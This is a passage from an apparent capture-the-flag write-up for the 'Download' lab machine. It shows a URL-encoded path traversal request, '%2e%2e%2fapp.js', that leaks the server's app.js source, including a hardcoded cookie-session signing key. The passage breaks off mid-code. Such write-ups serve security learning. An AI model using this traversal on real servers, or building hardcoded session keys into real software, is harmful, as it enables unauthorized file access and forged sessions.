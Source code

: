     "version": "1.0.0"
}
{{< /highlight >}}

According to the `package.json` file:

-   The author is `wesley` (possible username).
-   The application is built with TypeScript and uses Zod for schema validation.
-   The entry point specified in the dev script is `app.ts`, likely indicating the presence of an `app.js` file in the root directory.
-   Potentially interesting dependencies
    -   `@prisma/client`
    -   `cookie-parser`
    -   `cookie-session`
    -   `express-fileupload`

#### App.js

Trying to access `app.ts` directly with `/download/%2e%2e%2fsrc%2fapp.ts` leads to a 404 Not Found error. However, accessing `app.js` reveals its source code.

{{< highlight javascript "linenos=table,hl_lines=25-29 13-15 37-39 47" >}}
> http -pb http://download.htb/files/download/%2e%2e%2fapp.js
"use strict";
var __importDefault = (this && this.__importDefault) || function (mod) {
    return (mod && mod.__esModule) ? mod : { "default": mod };
};
Object.defineProperty(exports, "__esModule", { value: true });
const express_1 = __importDefault(require("express"));
const nunjucks_1 = __importDefault(require("nunjucks"));
const path_1 = __importDefault(require("path"));
const cookie_parser_1 = __importDefault(require("cookie-parser"));
const cookie_session_1 = __importDefault(require("cookie-session"));
const flash_1 = __importDefault(require("./middleware/flash"));
const auth_1 = __importDefault(require("./routers/auth"));
const files_1 = __importDefault(require("./routers/files"));
const home_1 = __importDefault(require("./routers/home"));
const client_1 = require("@prisma/client");
const app = (0, express_1.default)();
const port = 3000;
const client = new client_1.PrismaClient();
const env = nunjucks_1.default.configure(path_1.default.join(__dirname, "views"), {
    autoescape: true,
    express: app,
    noCache: true,
});
app.use((0, cookie_session_1.default)({
    name: "download_session",
    keys: ["8929874489719802418902487651347865819634518936754"],
    maxAge: 7 * 24 * 60 * 60 * 1000,
}));
app.use(flash_1.default);
app.use(express_1.default.urlencoded({ extended: false }));
app.use((0, cookie_parser_1.default)());
app.use("/static", express_1.default.static(path_1.default.join(__dirname, "static")));
app.get("/", (req, res) => {
    res.render("index.njk");
});
app.use("/files", files_1.default);
app.use("/auth", auth_1.default);
app.use("/home", home_1.default);
app.use("*", (req, res) => {
    res.render("error.njk", { statusCode: 404 });
});
app.listen(port, process.env.NODE_ENV === "production" ? "127.0.0.1" : "0.0.0.0", () => {